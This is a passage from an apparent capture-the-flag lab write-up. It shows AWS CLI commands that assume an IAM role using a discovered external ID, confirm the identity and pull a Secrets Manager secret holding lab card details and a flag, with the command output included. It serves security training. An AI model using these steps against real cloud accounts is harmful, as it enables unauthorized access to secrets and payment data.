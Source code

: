 Let's assume the role (we have to set `--external-id 37911` since it was defined in the role policy)
```
└─$ aws sts assume-role --role-arn arn:aws:iam::427648302155:role/ExternalCostOpimizeAccess --role-session-name ExternalCostOpimizeAccess --external-id 37911
{
    "Credentials": {
        "AccessKeyId": "ASIAWHEOTHRFT2TXIM5X",
        "SecretAccessKey": "<REDACTED>",
        "SessionToken": "<REDACTED>",
        "Expiration": "2025-08-26T18:48:31Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAWHEOTHRFZP3NQR7WN:ExternalCostOpimizeAccess",
        "Arn": "arn:aws:sts::427648302155:assumed-role/ExternalCostOpimizeAccess/ExternalCostOpimizeAccess"
    }
}

```

After setting the keys and session token we can confirm that we have successfully assumed the role
```
└─$ aws sts get-caller-identity
{
    "UserId": "AROAWHEOTHRFZP3NQR7WN:ExternalCostOpimizeAccess",
    "Account": "427648302155",
    "Arn": "arn:aws:sts::427648302155:assumed-role/ExternalCostOpimizeAccess/ExternalCostOpimizeAccess"
}

```

Let's get payment details that we saw above
```
└─$ aws secretsmanager get-secret-value --secret-id billing/hl-default-payment
{
    "ARN": "arn:aws:secretsmanager:us-east-1:427648302155:secret:billing/hl-default-payment-xGmMhK",
    "Name": "billing/hl-default-payment",
    "VersionId": "f8e592ca-4d8a-4a85-b7fa-7059539192c5",
    "SecretString": "{\"Card Brand\":\"VISA\",\"Card Number\":\"4180-5677-2810-4227\",\"Holder Name\":\"Michael Hayes\",\"CVV/CVV2\":\"839\",\"Card Expiry\":\"5/2026\",\"Flag\":\"<REDACTED>\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1691188419.867
}

```
# Defense
This part is from [lab's defense section](https://pwnedlabs.io/labs/assume-privileged-role-with-external-id)
